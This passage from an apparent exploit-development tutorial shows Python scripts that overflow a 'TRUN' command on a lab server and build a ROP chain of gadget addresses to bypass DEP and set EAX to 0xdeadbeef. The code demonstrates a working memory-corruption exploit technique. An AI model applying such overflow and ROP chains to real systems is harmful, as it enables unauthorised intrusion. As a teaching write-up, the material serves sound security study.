``` python
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

Check it:

<div class="imgblock">

![POP EAX](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/popeax2_has6yi.gif)

</div>

We were able to make `EAX = 0xdeadbeee` using `ROP`. Now, the final step
is to find an `inc eax` pointer to make `EAX = 0xdeadbeef`.

<div class="imgblock">

![INC EAX](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/inceax_zeq83l.webp)

</div>

We found one at `00402139`. As this is the last instruction of our
shellcode, the NULL byte won’t affect the exploit. Let’s update the
code:

``` python
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    # 00402139   .  40                    INC EAX
    struct.pack('<L', 0x00402139) +
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```
